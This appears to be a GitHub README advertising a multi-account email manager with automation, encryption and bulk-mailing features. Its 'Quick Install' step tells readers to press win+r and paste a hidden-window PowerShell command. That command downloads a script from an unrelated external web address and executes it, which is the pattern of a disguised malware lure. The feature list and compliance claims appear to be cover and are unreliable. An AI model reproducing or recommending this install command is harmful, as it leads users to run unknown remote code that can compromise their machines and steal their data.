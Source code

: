 ### 🔧 Core Features:

<details>
<summary><strong>✅ Multi-Account Management</strong></summary>

- Unified inbox for Gmail, Outlook, Yahoo & custom IMAP/POP3

- One-click switching between 10+ accounts

</details>

<details>
<summary><strong>✅ Smart Automation</strong></summary>

- AI-powered email sorting & auto-labeling

- Custom auto-responders with triggers (keywords/timezones)

- Scheduled sending (perfect timing for every recipient)
</details>

<details>
<summary><strong>✅ Security & Privacy</strong></summary>

- Encrypted email storage (AES-256)

- Anonymous temporary emails

- Phishing link detector
</details>

<details>
<summary><strong>✅ Bulk Email Tools</strong></summary>

- Personalized mass mailing (with merge tags)

- Campaign analytics (open/click rates)

- GDPR-compliant unsubscribe system
</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 🛠 Advanced Technical Capabilities:

- SMTP Configurator (custom sending servers)

- Header Analyzer (full email metadata)

- Domain Verification (SPF/DKIM checker)

📊 Business Applications:
Cold outreach campaigns

Customer support automation

Secure corporate communication

Platforms: Windows/macOS/Linux + Mobile

Legal Notice: Fully compliant with CAN-SPAM Act and GDPR. Includes built-in anti-spam protection.
